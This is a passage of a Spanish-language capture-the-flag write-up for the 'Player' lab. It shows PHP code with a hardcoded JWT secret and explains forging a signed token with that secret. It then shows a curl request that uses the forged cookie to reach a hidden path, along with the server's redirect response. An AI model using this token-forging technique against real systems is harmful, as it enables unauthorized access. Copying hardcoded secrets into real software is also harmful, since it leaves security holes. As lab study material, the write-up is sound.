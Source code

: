 ```php
    $key = '_S0_R@nd0m_P@ss_';
    $jwt = JWT::encode($token_payload, base64_decode(strtr($key, '-_', '+/')), 'HS256');
    $cookiename = 'access';
    setcookie('access',$jwt, time() + (86400 * 30), "/");
    header("Location: index.html");
}

?>
```

Aparece el secreto de forma hardcodeada. Modifico el código de mi JWT al otro que aparece y lo firmo con la key. Es importante dejar los datos encodeados en base64 ya que en caso contrario dará error

<img src="/writeups/assets/img/Player-htb/5.png" alt="">

Le tramito una petición por GET con la nueva cookie y en las cabeceras de respuesta aparece un ```Location``` que realiza un redirect

```null
curl -s -X GET http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php -H "Cookie: access=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE" -I
HTTP/1.1 302 Found
Date: Fri, 13 Oct 2023 17:16:28 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26
Location: 7F2dcsSdZo6nj3SNMTQ1/
Content-Length: 0
Content-Type: text/html
```
